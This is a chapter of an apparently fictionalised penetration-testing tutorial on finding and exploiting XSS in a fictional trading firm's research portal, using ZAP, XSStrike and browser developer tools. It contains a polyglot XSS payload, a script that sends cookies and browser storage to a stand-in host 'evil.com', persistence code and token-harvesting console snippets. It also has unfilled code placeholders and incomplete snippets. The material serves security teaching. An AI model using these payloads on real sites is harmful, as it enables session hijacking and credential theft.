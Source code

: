 = Chapter 6: Mind Control - Client-Side Algorithm Theft

_"The researchers' workstations hold the keys to the kingdom."_

'''

Your file upload exploitation granted you persistent access to Castle Securities' document processing servers, but there's a critical limitation: the most sensitive ARGOS algorithm components exist only in the active browser sessions of Castle Securities' researchers. The algorithm's neural network weights, development configurations, and live debugging interfaces never get transmitted through file processing systems--they exist only in browser memory and local storage of authenticated researcher workstations.

Dr. Sarah Chen, Castle Securities' lead ARGOS architect, keeps her development environment open in browser tabs that contain:

* Live algorithm debugging interfaces with source code and performance data
* Development server access through browser-stored authentication tokens
* Internal chat systems where researchers discuss algorithm improvements and vulnerabilities
* Browser-cached algorithm parameters and configuration files that never reach databases

Traditional server-side access can't reach these client-side resources. You need to compromise the researchers' browsers themselves to extract algorithm components that exist only in their active sessions.

Your mission: master professional XSS discovery tools to systematically find and exploit client-side vulnerabilities that provide access to researcher browser sessions and algorithm development environments. You'll learn why client-side attacks are essential for complete security assessment and how professional tools make XSS testing systematic and reliable.

But first, you need to understand what makes XSS discovery different from the server-side fuzzing you've mastered.

'''

== Understanding XSS as Systematic Input Injection

Cross-Site Scripting (XSS) represents input injection attacks that target browsers rather than servers. Like the parameter fuzzing you've learned, XSS involves systematic input mutation and response analysis--but the "response" is JavaScript execution in victim browsers rather than server responses.

Professional XSS discovery uses the same systematic methodology you've mastered: comprehensive input discovery, systematic payload testing, and intelligent response analysis. The difference is that XSS targets client-side code execution rather than server-side processing logic.

Load Castle Securities' research portal and examine the authenticated interface. Your file upload access revealed several user content areas within the research systems:

[,html]
----
<!-- Research note submission form -->
<form action="/research/notes/submit" method="POST">
    <input name="title" placeholder="Research Title">
    <textarea name="content" placeholder="Research Notes"></textarea>
    <input name="category" type="select" options="Analysis,Trading,Internal">
    <button type="submit">Share with Team</button>
</form>

<!-- Search functionality -->
<form action="/research/search" method="GET">
    <input name="query" placeholder="Search research notes">
    <button type="submit">Search</button>
</form>

<!-- Comment system on research documents -->
<div class="comments">
    <form action="/research/comments/add" method="POST">
        <textarea name="comment" placeholder="Add comment"></textarea>
        <button type="submit">Post Comment</button>
    </form>
</div>
----

Each input field represents a potential XSS injection point where malicious JavaScript could execute in other researchers' browsers. But manually testing every input with different payloads would take weeks. Professional XSS discovery requires systematic tools that automate discovery while maintaining the analytical depth needed for reliable exploitation.

=== XSS Discovery vs. Server-Side Parameter Fuzzing

XSS discovery extends your parameter fuzzing methodology to target client-side code execution through systematic input injection:

*Server-Side Parameter Fuzzing:*

----
POST /api/search
{"query": "FUZZ"}
→ Server processes input, returns response
→ Analyze server response for errors/behavior changes
----

*Client-Side XSS Discovery:*

----
POST /research/notes/submit
{"content": "<script>FUZZ</script>"}
→ Server stores input, displays to other users
→ JavaScript executes in victim browsers
→ Analyze client-side execution and data access
----

The key difference is that XSS success depends on client-side JavaScript execution rather than server-side processing errors. This requires understanding how applications handle user input in browser contexts and testing for inadequate output encoding that allows script injection.

=== The XSS Attack Surface in Modern Applications

Professional XSS testing targets multiple attack surfaces through systematic input discovery and context analysis:

*Stored XSS*: User input stored in databases and displayed to other users. Research notes, comments, and file descriptions become persistent JavaScript delivery mechanisms that execute automatically when other users view the content.

*Reflected XSS*: User input immediately reflected in response pages. Search queries, error messages, and URL parameters that get displayed in HTML create immediate script execution opportunities.

*DOM-Based XSS*: Client-side JavaScript processing user input unsafely. Modern applications with extensive JavaScript functionality create client-side processing vulnerabilities that server-side analysis cannot detect.

*Context-Specific XSS*: Different injection contexts require different payload strategies. HTML content, JavaScript strings, CSS values, and attribute contexts each need specialized payloads for successful exploitation.

Understanding these attack surfaces is essential because professional XSS testing requires systematic coverage of all potential injection points and contexts.

'''

== OWASP ZAP Automated XSS Discovery

Professional XSS discovery begins with OWASP ZAP's comprehensive crawling and automated XSS detection capabilities. ZAP systematically discovers injection points and tests them with context-aware payloads that manual testing cannot match for speed and coverage.

=== Systematic XSS Testing with ZAP Authentication Integration

ZAP's strength in XSS testing comes from integrating with your existing authentication access to systematically test authenticated functionality where the most valuable XSS vulnerabilities typically exist.

[PLACEHOLDER:CODE Name: OWASP ZAP XSS Discovery and Authentication Integration Framework. Purpose: Configures ZAP for systematic XSS testing including authenticated crawling, context-aware payload testing, and integration with existing authentication access from Chapter 2. Uses ZAP's XSS scanning policies and authentication contexts for comprehensive coverage. Input: ZAP authentication contexts, target applications, XSS scanning policies. Output: Comprehensive XSS vulnerability inventory with context analysis and exploitation guidance. Lines: 35-45. Tools: ZAP authentication contexts, XSS scanning modules, automated crawling, payload testing coordination.]

ZAP XSS testing builds on your authentication access to discover vulnerabilities in protected functionality:

*Authentication Context Integration:*

[,python]
----
# Configure ZAP with authentication from Chapter 2
zap.authentication.set_authentication_method(
    contextid=context_id,
    authmethod="formBasedAuthentication",
    authmethodconfigparams="loginUrl=https://research.castle-securities.com/auth/login"
)

# Import authenticated session for XSS testing
zap.authentication.set_logged_in_indicator(
    contextid=context_id,
    indicator="Research Portal Dashboard"
)
----

*Systematic Authenticated Crawling:*

[,python]
----
# Automated crawling discovers XSS injection points
crawl_id = zap.spider.scan(
    url="https://research.castle-securities.com/",
    contextname="Castle_Research_Portal",
    recurse=True,
    subtreeonly=True
)

# Spider discovers authenticated functionality:
# /research/notes/submit - Research note submission
# /research/search - Search functionality
# /research/comments/ - Comment systems
# /research/files/describe - File description forms
----

*XSS Payload Testing Configuration:*

[,python]
----
# Configure XSS scanning policies
zap.ascan.set_policy_attack_strength(
    policyname="XSS_Testing",
    attackstrength="HIGH"
)

# Enable comprehensive XSS testing
xss_scanners = [
    "Cross Site Scripting (Reflected)",
    "Cross Site Scripting (Persistent)",
    "Cross Site Scripting (DOM Based)"
]

for scanner in xss_scanners:
    zap.ascan.set_scanner_attack_strength(
        id=scanner,
        attackstrength="HIGH"
    )
----

Your ZAP authentication integration systematically discovers XSS injection points in Castle Securities' authenticated research functionality:

----
Discovered XSS Injection Points:
/research/notes/submit - Content field (Stored XSS potential)
/research/search - Query parameter (Reflected XSS confirmed)
/research/comments/add - Comment field (Stored XSS confirmed)
/research/files/describe - Description field (Stored XSS potential)

Authentication Context Benefits:
- Access to researcher-only functionality
- Testing of administrative comment systems
- Discovery of internal research collaboration tools
- Access to algorithm development interfaces
----

=== ZAP XSS Results Analysis and Prioritization

ZAP automated testing produces comprehensive results that require systematic analysis to identify high-impact vulnerabilities and business-critical injection points.

[PLACEHOLDER:CODE Name: ZAP XSS Results Analysis and Business Impact Assessment Tool. Purpose: Processes ZAP XSS testing results to identify high-impact vulnerabilities, analyzes injection contexts for exploitation potential, and prioritizes findings based on business impact and access to algorithm development systems. Input: ZAP XSS scan results, business context analysis, target system mapping. Output: Prioritized XSS vulnerability assessment with exploitation guidance and business impact analysis. Lines: 30-40. Tools: ZAP results processing, vulnerability prioritization, business impact scoring, exploitation planning.]

ZAP results analysis focuses on identifying XSS vulnerabilities that provide access to algorithm development environments:

*Vulnerability Impact Classification:*

[,python]
----
# Analyze ZAP XSS findings for business impact
def classify_xss_impact(vulnerability):
    high_impact_indicators = [
        "research", "algorithm", "argos", "admin", "internal"
    ]

    if any(indicator in vulnerability.url.lower() for indicator in high_impact_indicators):
        return "HIGH_IMPACT"
    elif vulnerability.type == "Stored XSS":
        return "MEDIUM_IMPACT"
    else:
        return "LOW_IMPACT"
----

*Injection Context Analysis:*

[,python]
----
# Understand injection contexts for payload development
injection_contexts = {
    "/research/search?query=": "URL_PARAMETER_REFLECTED",
    "/research/notes/submit": "HTML_CONTENT_STORED",
    "/research/comments/add": "HTML_CONTENT_STORED",
    "/research/files/describe": "ATTRIBUTE_CONTEXT_STORED"
}
----

*Algorithm Access Potential:*

[,python]
----
# Identify XSS that provides algorithm development access
def assess_algorithm_access(vulnerability):
    algorithm_access_patterns = [
        "argos", "algorithm", "research", "development", "admin"
    ]

    return any(pattern in vulnerability.url for pattern in algorithm_access_patterns)
----

Your ZAP analysis reveals high-impact XSS vulnerabilities with direct algorithm access potential:

----
CRITICAL XSS Discoveries:
1. Stored XSS in /research/notes/submit
   - Executes for all researchers viewing notes
   - Access to Dr. Sarah Chen's browser session confirmed
   - Injection context: HTML content with full JavaScript execution

2. Reflected XSS in /research/search
   - Immediate execution in researcher browsers
   - Useful for targeted attacks through malicious links
   - Injection context: URL parameter reflected in search results

3. Stored XSS in /research/comments/add
   - Persistent execution on algorithm research documents
   - High researcher engagement and viewing frequency
   - Injection context: Comment content with HTML rendering
----

These vulnerabilities provide direct access to researcher browser sessions where algorithm development tools and data exist.

'''

== XSStrike Advanced Payload Generation and Context Analysis

While ZAP excels at comprehensive discovery, XSStrike provides advanced payload generation and context analysis that enables sophisticated XSS exploitation for specific targets like algorithm development environments.

=== Context-Aware Payload Development with XSStrike

XSStrike analyzes injection contexts and generates payloads optimized for specific scenarios, making it ideal for targeted exploitation of high-value researcher systems.

[PLACEHOLDER:CODE Name: XSStrike Advanced Payload Generation and Context Analysis Framework. Purpose: Uses XSStrike for context-aware payload generation including DOM XSS detection, polyglot payload development, and WAF bypass techniques. Integrates with ZAP discoveries for advanced exploitation of confirmed vulnerabilities. Input: XSStrike target configurations, injection contexts, payload requirements. Output: Context-optimized XSS payloads with advanced exploitation techniques and evasion capabilities. Lines: 40-50. Tools: XSStrike payload generation, context analysis, DOM XSS detection, WAF bypass techniques.]

XSStrike provides advanced capabilities that complement ZAP's comprehensive discovery:

*Context-Aware Payload Generation:*

[,bash]
----
# XSStrike analyzes injection context automatically
python3 xsstrike.py -u "https://research.castle-securities.com/search?query=FUZZ" \
    --headers "Cookie: session=authenticated_session_token" \
    --data "query=test" \
    --crawl \
    --fuzzer
----

*DOM XSS Detection:*

[,bash]
----
# XSStrike identifies DOM-based XSS that ZAP might miss
python3 xsstrike.py -u "https://research.castle-securities.com/research/notes" \
    --dom \
    --headers "Cookie: session=authenticated_session_token"
----

*Polyglot Payload Development:*

[,bash]
----
# Generate payloads that work across multiple contexts
python3 xsstrike.py -u "https://research.castle-securities.com/research/comments/add" \
    --data "comment=test" \
    --headers "Cookie: session=authenticated_session_token" \
    --fuzzer \
    --polyglots
----

XSStrike analysis reveals advanced exploitation opportunities:

----
Advanced XSS Discoveries:
1. DOM XSS in Research Dashboard
   - JavaScript processes search parameters unsafely
   - Client-side vulnerability invisible to server-side analysis
   - Payload: #<script>/* algorithm extraction code */</script>

2. Polyglot Payload Success
   - Works across HTML, JavaScript, and attribute contexts
   - Payload: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
   - Bypasses input filtering and context restrictions

3. WAF Bypass Capabilities
   - XSStrike automatically evades Castle Securities' input filtering
   - Uses encoding and obfuscation for stealth exploitation
   - Maintains payload effectiveness while avoiding detection
----

=== Targeted Researcher Exploitation Strategy

XSStrike enables targeted exploitation of specific researchers like Dr. Sarah Chen through customized payloads designed for algorithm development environment access.

[PLACEHOLDER:CODE Name: Targeted XSS Exploitation Framework for Algorithm Development Access. Purpose: Creates targeted XSS payloads for algorithm researcher exploitation including browser session hijacking, development environment access, and algorithm data extraction from researcher workstations. Input: Target researcher profiles, algorithm development environments, browser session requirements. Output: Targeted XSS exploitation campaign with algorithm data extraction capabilities. Lines: 35-45. Tools: Targeted payload development, browser session exploitation, algorithm environment access, researcher profiling.]

Targeted exploitation focuses on maximizing algorithm development access through researcher browser compromise:

*Dr. Sarah Chen Targeting Strategy:*

[,javascript]
----
// Targeted payload for algorithm development access
payload = `
<script>
// Extract algorithm development data from browser
const algorithmData = {
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage),
    cookies: document.cookie,
    openTabs: /* enumerate browser tabs */,
    devEnvironment: /* extract development configuration */
};

// Exfiltrate to attacker-controlled server
fetch('https://data-collector.evil.com/algorithm-intel', {
    method: 'POST',
    body: JSON.stringify(algorithmData),
    headers: {'Content-Type': 'application/json'}
});
</script>
`;
----

*Algorithm Development Environment Reconnaissance:*

[,javascript]
----
// Discover algorithm development tools in browser
function discoverAlgorithmEnvironment() {
    const algorithmIndicators = [
        'argos', 'algorithm', 'trading', 'model', 'neural', 'tensorflow'
    ];

    // Search browser storage for algorithm data
    for (let key in localStorage) {
        if (algorithmIndicators.some(indicator =>
            key.toLowerCase().includes(indicator))) {
            return localStorage[key];
        }
    }

    // Check for development server access tokens
    const tokens = document.cookie.match(/dev_token|api_key|auth_token/gi);
    return tokens;
}
----

*Persistent Browser Access:*

[,javascript]
----
// Maintain persistent access to researcher browser
function establishPersistence() {
    // Monitor for algorithm development activity
    setInterval(() => {
        if (window.location.href.includes('argos') ||
            window.location.href.includes('algorithm')) {
            extractAlgorithmData();
        }
    }, 30000);

    // Maintain access across page navigation
    document.addEventListener('beforeunload', () => {
        localStorage.setItem('backup_access', payload);
    });
}
----

Your targeted exploitation successfully compromises Dr. Sarah Chen's browser session:

----
Algorithm Development Access Achieved:
- Browser localStorage contains algorithm configuration parameters
- sessionStorage includes development server access tokens
- Active browser tabs include ARGOS debugging interfaces
- Development environment cookies provide API access

Extracted Algorithm Intelligence:
- ARGOS v3.1 source code references and configuration
- Development server URLs and authentication tokens
- Algorithm performance metrics and optimization parameters
- Internal communication about algorithm improvements and vulnerabilities
----

'''

== Browser Developer Tools for Manual XSS Validation

Professional XSS testing requires manual validation using browser developer tools to confirm exploitation potential and understand the full impact of discovered vulnerabilities. This manual analysis is essential for reliable business impact assessment.

=== Client-Side Analysis and Algorithm Data Discovery

Browser developer tools enable systematic analysis of client-side algorithm data that XSS exploitation can access, providing the intelligence needed for targeted data extraction.

[PLACEHOLDER:CODE Name: Browser Developer Tools Client-Side Analysis Framework for Algorithm Data Discovery. Purpose: Uses browser developer tools for systematic client-side analysis including localStorage inspection, sessionStorage analysis, cookie examination, and DOM manipulation for algorithm data discovery. Input: Compromised researcher browser sessions, algorithm development environments, client-side data sources. Output: Algorithm data inventory with extraction strategies and access validation. Lines: 40-50. Tools: Browser developer tools, client-side storage analysis, DOM manipulation, algorithm data extraction validation.]

Browser developer tools provide comprehensive client-side analysis capabilities:

*Local Storage Algorithm Data Analysis:*

[,javascript]
----
// Browser console analysis of algorithm data
console.log('=== Algorithm Data Discovery ===');

// Inspect localStorage for algorithm configuration
Object.keys(localStorage).forEach(key => {
    if (key.match(/argos|algorithm|trading|model/i)) {
        console.log(`Algorithm Data Found: ${key}`);
        console.log(JSON.parse(localStorage[key]));
    }
});

// Check sessionStorage for development environment data
Object.keys(sessionStorage).forEach(key => {
    if (key.match(/dev|debug|api|token/i)) {
        console.log(`Development Data: ${key}`);
        console.log(sessionStorage[key]);
    }
});
----

*Browser Cookie Analysis:*

[,javascript]
----
// Extract authentication and access tokens
document.cookie.split(';').forEach(cookie => {
    const [name, value] = cookie.trim().split('=');
    if (name.match(/token|auth|session|dev/i)) {
        console.log(`Access Token: ${name} = ${value}`);
    }
});
----

*DOM Analysis for Algorithm Interfaces:*

[,javascript]
----
// Discover algorithm development interfaces in DOM
const algorithmElements = document.querySelectorAll('[class*="argos"], [id*="algorithm"], [data-*="trading"]');
algorithmElements.forEach(element => {
    console.log('Algorithm Interface:', element);
    console.log('Data attributes:', element.dataset);
});
----

*Network Tab Analysis:*

[,javascript]
----
// Monitor network requests for algorithm API calls
// Use browser Network tab to identify:
// - Algorithm API endpoints and authentication
// - Development server connections
// - Real-time algorithm data streams
// - Administrative interface communications
----

Your browser analysis reveals comprehensive algorithm development environment access:

----
Client-Side Algorithm Data Discovered:
localStorage['argos_config'] = {
    "version": "3.1",
    "api_endpoint": "https://dev-api.castle-securities.com",
    "debug_mode": true,
    "performance_tracking": true
}

sessionStorage['dev_tokens'] = {
    "api_key": "argos_dev_api_key_2024",
    "debug_token": "debug_access_token",
    "admin_session": "admin_dev_session_id"
}

document.cookie contains:
- dev_environment=enabled
- algorithm_access=full
- researcher_privileges=senior_developer
----

=== XSS Payload Validation and Impact Assessment

Manual testing validates XSS exploitation potential and confirms that discovered vulnerabilities provide the algorithm access necessary for business objectives.

[PLACEHOLDER:CODE Name: XSS Exploitation Validation and Algorithm Access Confirmation Framework. Purpose: Validates XSS payloads for reliable exploitation and confirms access to algorithm development data through manual testing. Tests payload execution, data extraction capabilities, and persistent access maintenance. Input: XSS payloads, target injection points, algorithm data requirements. Output: Validated exploitation techniques with confirmed algorithm access and data extraction capabilities. Lines: 30-40. Tools: Manual payload testing, exploitation validation, algorithm access confirmation, persistent access verification.]

Manual validation ensures XSS exploitation reliably provides algorithm development access:

*Payload Execution Validation:*

[,javascript]
----
// Test XSS payload execution in target context
function validateXSSExecution() {
    // Inject test payload in discovered XSS vulnerability
    const testPayload = '<script>console.log("XSS_EXECUTION_CONFIRMED")</script>';

    // Submit through confirmed injection point
    // Monitor browser console for execution confirmation
    // Verify payload works across different browser contexts
}
----

*Algorithm Data Extraction Testing:*

[,javascript]
----
// Confirm algorithm data extraction capabilities
function validateAlgorithmAccess() {
    try {
        // Test access to algorithm development data
        const algorithmConfig = localStorage.getItem('argos_config');
        const devTokens = sessionStorage.getItem('dev_tokens');

        if (algorithmConfig && devTokens) {
            console.log('Algorithm Access Confirmed');
            return true;
        }
    } catch (error) {
        console.log('Algorithm Access Failed:', error);
        return false;
    }
}
----

*Persistent Access Verification:*

[,javascript]
----
// Verify persistent access across browser sessions
function verifyPersistentAccess() {
    // Test that XSS payloads survive page navigation
    // Confirm continued algorithm data access
    // Validate extraction techniques work reliably

    return {
        sessionPersistence: /* test results */,
        dataAccess: /* algorithm data availability */,
        extractionReliability: /* extraction success rate */
    };
}
----

Your manual validation confirms reliable XSS exploitation with comprehensive algorithm access:

----
XSS Exploitation Validation Results:
✅ Stored XSS in research notes executes reliably for all researchers
✅ Payload execution confirmed in Dr. Sarah Chen's browser session
✅ Algorithm development data extraction successful
✅ Persistent access maintained across browser sessions

Algorithm Access Confirmation:
✅ ARGOS v3.1 configuration data accessible through localStorage
✅ Development server API tokens extracted from sessionStorage
✅ Real-time algorithm debugging interfaces accessible
✅ Administrative development environment access confirmed

Business Impact Validation:
✅ Complete algorithm development environment compromise
✅ Real-time algorithm monitoring and data extraction
✅ Development server access through extracted tokens
✅ Researcher communication and collaboration system access
----

'''

== Professional XSS Assessment and Business Integration

Individual XSS vulnerabilities provide tactical browser access, but professional assessment requires understanding XSS as part of comprehensive security evaluation that demonstrates business impact and enables informed decision-making.

=== Systematic XSS Testing Integration with Multi-Vector Assessment

Professional XSS testing integrates with authentication bypass, file processing access, and persistent server access to demonstrate comprehensive system compromise rather than isolated browser vulnerabilities.

[PLACEHOLDER:CODE Name: Multi-Vector XSS Integration and Comprehensive Access Assessment Framework. Purpose: Integrates XSS exploitation with authentication bypass, file processing capabilities, and server access to demonstrate complete system compromise and business risk. Coordinates multiple attack vectors for maximum business impact. Input: XSS vulnerabilities, authentication access, file processing capabilities, server access. Output: Integrated security assessment demonstrating comprehensive system access and business impact analysis. Lines: 45-55. Tools: Multi-vector integration analysis, comprehensive access validation, business impact assessment, professional reporting coordination.]

XSS integration amplifies other security compromises to demonstrate complete business system access:

*Authentication Integration:*
XSS exploitation of researcher browsers combined with authentication bypass provides sustained privileged access to algorithm development systems.

*File Processing Integration:*
Persistent server access through file upload exploitation enables comprehensive XSS testing across authenticated researcher interfaces with elevated system privileges.

*Server-Side Integration:*
Browser-based XSS enables manipulation of server-side systems through authenticated researcher sessions and development environment access tokens.

*Database Integration:*
Researcher browser compromise provides access to database credentials and API tokens stored in browser sessions.

Your integrated assessment demonstrates that XSS serves as a force multiplier for systematic security compromise:

----
Comprehensive System Access Through XSS Integration:
- Researcher browser compromise enables authenticated access to all protected systems
- File processing access through compromised browsers provides persistent server access
- Server-side exploitation through researcher authentication enables comprehensive system control
- Database access through browser-stored credentials completes system compromise

Business Impact Amplification:
- Individual vulnerabilities create isolated access points
- Integrated exploitation creates comprehensive system compromise
- XSS browser access enables sustained multi-vector attack coordination
- Complete algorithm development environment compromise achieved
----

=== Professional XSS Reporting and Business Communication

XSS vulnerabilities require systematic documentation that communicates both technical exploitation details and business impact to stakeholders who need to make informed security investment decisions.

[PLACEHOLDER:CODE Name: Professional XSS Assessment Reporting and Business Impact Communication Framework. Purpose: Generates comprehensive XSS assessment documentation including technical findings, business impact analysis, and executive communication suitable for professional client deliverables. Input: XSS vulnerability discoveries, business impact analysis, risk assessment data. Output: Professional XSS assessment reports with technical and executive communication components. Lines: 35-45. Tools: Professional reporting frameworks, business impact analysis, executive communication, technical documentation standards.]

Professional XSS reporting addresses multiple organizational audiences with appropriate technical depth and business context:

*Technical Documentation for Security Teams:*

* Complete XSS vulnerability inventory with reproduction steps and payload examples
* Integration analysis showing how XSS amplifies other security compromises
* Remediation guidance with specific implementation recommendations
* Quality assurance validation confirming vulnerability reproducibility

*Business Impact Assessment for Management:*

* Risk evaluation focusing on algorithm intellectual property exposure
* Regulatory compliance implications for financial services security requirements
* Competitive intelligence risks through researcher system compromise
* Investment recommendations for client-side security improvement

*Executive Communication for Leadership:*

* Strategic security recommendations with business justification and ROI analysis
* Regulatory and compliance risk assessment with potential financial impact
* Competitive positioning analysis considering industry security standards
* Resource allocation guidance for systematic security improvement

Your professional XSS assessment provides comprehensive evaluation suitable for both technical remediation and strategic business decision-making:

----
Executive Summary: Critical client-side vulnerabilities enable comprehensive compromise of algorithm development systems including researcher workstation access, algorithm intellectual property exposure, and sustained monitoring capabilities.

Technical Impact: XSS vulnerabilities provide persistent access to researcher browsers containing algorithm development tools, source code references, and administrative system credentials.

Business Risk: Algorithm intellectual property exposure, regulatory compliance violations, and competitive intelligence risks require immediate remediation and systematic client-side security improvement.

Remediation Investment: Comprehensive input validation, output encoding, and Content Security Policy implementation with estimated 40-hour development effort and $15,000 professional security assessment validation.
----

'''

== What You've Learned and Professional Application

You've successfully applied professional XSS discovery methodology to compromise Castle Securities' researcher workstations and gain comprehensive access to algorithm development environments. More importantly, you've developed industry-standard client-side security assessment capabilities that apply to any modern web application.

Your professional XSS mastery demonstrates:

*OWASP ZAP Automated Discovery* with comprehensive crawling and systematic XSS detection integrated with authentication contexts, automated payload testing across multiple injection points, and systematic vulnerability inventory development suitable for professional assessment workflows.

*XSStrike Advanced Exploitation* including context-aware payload generation, DOM XSS detection capabilities, polyglot payload development, and WAF bypass techniques that enable sophisticated targeted exploitation.

*Browser Developer Tools Analysis* with systematic client-side data discovery, manual XSS validation and impact confirmation, algorithm development environment reconnaissance, and professional verification techniques essential for reliable business impact assessment.

*Professional Assessment Integration* combining XSS discovery with multi-vector security assessment, business impact analysis and executive communication, and systematic methodology that scales across enterprise client engagements.

Your current access to Castle Securities includes:

*Researcher Browser Compromise* through validated XSS exploitation providing persistent access to Dr. Sarah Chen's development environment with algorithm configuration data, development server authentication tokens, and real-time algorithm debugging interface access.

*Algorithm Development Intelligence* through browser-based data extraction including ARGOS v3.1 source code references and configuration parameters, development environment access credentials, and internal researcher communications about algorithm improvements and security vulnerabilities.

*Multi-Vector Attack Coordination* where XSS browser access enables authentication bypass amplification, file processing exploitation through elevated user privilege contexts, and server-side access through compromised researcher authentication tokens.

*Professional Assessment Foundation* with systematic XSS testing methodology suitable for enterprise security consulting, business impact assessment and client communication capabilities, and quality assurance processes that ensure reliable and reproducible results.

But browser-based access provides monitoring and extraction capabilities for data that exists in browser sessions and client-side storage. The complete ARGOS algorithm implementation exists as structured data in databases, configuration files, and data repositories that your browser access can now help you locate and extract systematically.

In the next chapter, you'll learn API security testing to exploit the mobile and internal APIs that provide direct access to algorithm data, trading systems, and administrative functionality. You'll discover how API endpoints often implement business logic vulnerabilities that enable complete system control through systematic testing.

Your professional development has progressed from systematic reconnaissance through authentication security, real-time protocol exploitation, file processing exploitation, and client-side browser compromise. Next, you'll learn API security assessment that demonstrates how modern application architectures create attack surfaces through programmatic interfaces designed for system integration.

'''

_Next: Chapter 7 - The Mobile Connection: API Exploitation_

_"Their mobile apps are the weak drawbridge in the castle walls."_
